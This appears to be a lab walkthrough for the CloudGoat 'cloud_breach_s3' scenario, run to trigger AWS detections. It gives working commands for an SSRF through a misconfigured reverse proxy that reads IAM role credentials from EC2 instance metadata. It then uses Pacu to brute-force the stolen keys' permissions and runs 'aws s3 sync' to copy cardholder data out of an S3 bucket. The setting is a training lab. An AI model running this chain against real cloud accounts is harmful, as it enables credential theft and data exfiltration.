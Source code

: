 ### Objective 
Quick attack to get account in critical quadrant (~20 minutes).
- Detections include
  - AWS Organization Discovery
  - AWS User Permissions Enumeration
  - AWS Suspicious Credential Usage
  - AWS Suspicious EC2 Enumeration
  - AWS S3 Enumeration

![critical](./images/critical.png)

### Notes
- Fresh Ubuntu install will be attacker machine
- There are other ways to install the tools
- Will need AWS account with admin rights
- Setting up the AWS profile may very

### Install system prerequisites (may already be installed) 

```bash
sudo apt-get update && sudo apt install -y ssh vim net-tools curl git python3-pip 
```

### Install tools for attack (may already be installed) 
- Install awscli
   - Download the package
     ```bash
     curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "awscliv2.zip"
     ```
   - Unzip the installer 
     ```bash
     unzip awscliv2.zip
     ``` 
   - Run the install program
     ```bash
     sudo ./aws/install
     ```
- Install terraform
   - Terraform Prerequisites 
     ```bash
     sudo apt-get update && sudo apt-get install -y gnupg software-properties-common
     ```
   - Add the HashiCorp GPG key 
     ```bash
     curl -fsSL https://apt.releases.hashicorp.com/gpg | sudo apt-key add -
     ```
   - Add the official HashiCorp Linux repository 
     ```bash
     sudo apt-add-repository "deb [arch=amd64] https://apt.releases.hashicorp.com $(lsb_release -cs) main"
     ```  
   - Update to add the repository, and install the Terraform CLI 
     ```bash
     sudo apt-get update && sudo apt-get install terraform
     ```

### Install Cloudgoat
  - Use git to clone the Cloudgoat repo to home directory and change to the new directory
     ```bash
     git clone https://github.com/RhinoSecurityLabs/cloudgoat.git ~/cloudgoat && cd ~/cloudgoat
     ```
  - Install the Cloudgoat dependencies 
     ```bash 
     pip3 install -r ./core/python/requirements.txt && chmod u+x cloudgoat.py
     ```

### Install Pacu
  - Use git to clone the Pacu repo to home directory and change to the new directory
     ```bash
     git clone https://github.com/RhinoSecurityLabs/pacu.git ~/pacu && cd ~/pacu
     ```
 - Install the Pacu dependencies 
     ```bash 
     pip3 install -r requirements.txt
     ```

### Setup AWS Profile
- Setup AWS profile for Cloudgoat.  This account will need admin access in AWS.  This will create or add a new profile in ```~/.aws/config``` and ```~/.aws/credentials```

- You will be prompted for ```Access Key ID, AWS Secret Access Key, Default region name, Default output format```
  ```bash
  aws configure --profile cloudgoat
  ```  
- Make the new aws profile your default 
  ```bash 
  export AWS_PROFILE=cloudgoat
  ```
- Verify credentials are working
  ```bash
   aws sts get-caller-identity
  ```
![awsprofile](./images/awsprofile.png)
### Setup Cloudgoat
  - Run Cloudgoat config profile from home directory and set default profile.  You will be prompted to enter an AWS profile from the previous step which we called ```cloudgoat```.  This is how cloudgoat will access AWS.
     ```bash
     ~/cloudgoat/cloudgoat.py config profile
     ```
  - Run Cloudgoat config whitlelist
     ```bash
     ~/cloudgoat/cloudgoat.py config whitelist --auto
     ```

### Setup vulnerable infrastructure with Cloudgoat
Now that the tools are seutp we will use Cloudgoat to setup vulnerable infastuecure in AWS.  This will create a scenario with a misconfigured reverse-proxy server in EC2. 

  - Run the attack scenario 
     ```bash
     ~/cloudgoat/cloudgoat.py create cloud_breach_s3
     ```

![Cloudgoat](./images/cloudgoatout.png)

- ***Copy the response to a text file*** you will need the EC2 IP

### Start attack
At this point we have created vulnerable infrastucute in AWS using Cloudgoat.  Starting as an anonymous outsider with no access or privileges, exploit a misconfigured reverse-proxy server to query the EC2 metadata service and acquire instance profile keys. Then, use those keys to discover, access, and exfiltrate sensitive data from an S3 bucket.

- Replace ```<ec2-ip-address>``` with the IP address from the previoues step to get a role name.  ***Copy the response to a text file*** as you will need the role name for the next attack
 ```bash
 curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'
 ```
 
![role](./images/role.png)

- Replace ```<ec2-ip-address>``` and ```<ec2-role-name>``` from the previous steps to get the keys. ***Copy response to text file*** as you will need these stolen crendentials
 ```bash
 curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/<ec2-role-name> -H 'Host:169.254.169.254'
 ```

![ssrf2](./images/ssrf2.png)  
  
- Next we will use pacu to do discovery with the stolen crendentials
  - Start pacu from the shell session by running ```~/pacu/cli.py```
  - Create new session in pacu named ```cloud_breach_s3```
  - Set the keys using ```set_keys``` from the pacu session using the stolen credentials from the previous step

![pacukeys](./images/pacukeys.png)

- Use pacu to start disocvery using the following modules
  - ```run aws__enum_account``` Get account details:  permission denied 
  - ```run iam__enum_permissions``` Get permissions for IAM entity:  permission denied
  - ```run iam__enum_users_roles_policies_groups``` Get group polices for IAM entity:  permission denied
  - ```run iam__bruteforce_permissions``` Brute force for access to services: **BINGO!**

![output](./images/output.png)

- The stolen credentials have full access to S3
  - Exit pacu by typing ```exit``` and return to attack
- Create a new aws profile with stolen credentials
 ```bash
 aws configure --profile cloud_breach_s3
 ```
 - Set the ```AWS Access Key ID``` and ```AWS Secret Access Key``` using the stolen crendentials
 - Set the "Default region" name and the "Default output" format to ```json```
 - Manually add the ```aws_session_token``` to the aws credentails file (use i for insert mode then esc :wq to save and close)
   ```bash
   vi  ~/.aws/credentials
   ```
![sestoken](./images/sestoken.png)

- List and search buckets the stolen credentails have access to
   ```bash
   aws s3 ls --profile cloud_breach_s3
   ```
![list](./images/list.png)
- Download data from the ``cardholder-data`` bucket to local system home directory.  Replace ```<bucket-name>``` with the bucket to download data
   ```bash
   aws s3 sync s3://<bucket-name> ~/cardholder-data --profile cloud_breach_s3
   ```
- Change to home directory and perfom list to verify data was downloaded
   ```bash
   cd && ls
   ```
![download](./images/download.png)
- Remove vulnerable infrasturecure
   ```bash
   ~/cloudgoat/cloudgoat.py destroy cloud_breach_s3
   ```
- Attack had been completed.  Review the detections in dfaws dashboard.  